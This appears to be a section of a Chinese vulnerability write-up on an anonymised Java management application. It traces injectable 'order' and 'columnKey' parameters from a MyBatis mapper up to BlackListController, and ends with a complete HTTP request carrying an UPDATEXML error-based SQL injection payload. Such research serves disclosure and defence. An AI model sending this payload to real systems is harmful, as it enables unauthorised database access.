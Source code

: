 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWJqJzKibT83XJck06MhwnkN4bWb2oRJq6qZhUzlvKiatDCH25iaQh2HyZw/640?wx_fmt=png&from=appmsg "")  
  
‍  
# 12、sql注入1（两处）  
  
SQL注入也很多，拿一个做案例。在下面的mapper  
的目录中，看到有两个可控参数order  
和columnKey  
，这里的columnKey  
注入条件必须order  
不为空才能进行诸如  
  
/manage/WEB-INF/lib/x.server-1.0.jar!/com/x/x/mapper/mysql/black_list/BlackListDsm.xml  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWBGw3CoKaFB6Ecl5zob03a2hs7po6CZScTCnVdwnlfJV1z9lQO1ice2g/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
这里进行反推，找关键函数queryBlackList  
，文件从BlackListDsm  
->BlackListBsm  
->BlackListAsm  
->BlackListController  
  
BlackListDsm  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWSaHFULmAzrVFJePCKGJg61EkNvfiaqsLqOAtdtX5o2Ac42oyccmkREQ/640?wx_fmt=png&from=appmsg "")  
  
BlackListBsmImpl  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWdPQMmecL4ibcmiaSY7DNGc4wibVm13UW81rBTDcd0TDd0RPaVIOxvAUOg/640?wx_fmt=png&from=appmsg "")  
  
BlackListAsmImpl.class  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGW1OjhdXoyGGWYvibiaKEvjdKg5ia7OgeN6Tyw5ncq8U61G3RpTDBKkialOQ/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
BlackListController.class  
，用set  
方法设置参数，并调用函数queryBlackList  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWOoiaoAHR7LCg5BkEdWJPgd70s8J25bnjyoH5WkaANOMbibHb6uyWicxjg/640?wx_fmt=jpeg&from=appmsg "")  
  
‍  
  
那这里的sql注入payload1  
```
GET /manage/systemBlackList/queryBlackList.do?recoToken=ZuZBOrvLG8M&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x2e,0x71716a7071,(SELECT+(ELT(2920=2920,1))),0x71706b7671),8357)) HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedAccept: */*Connection: close
```  
  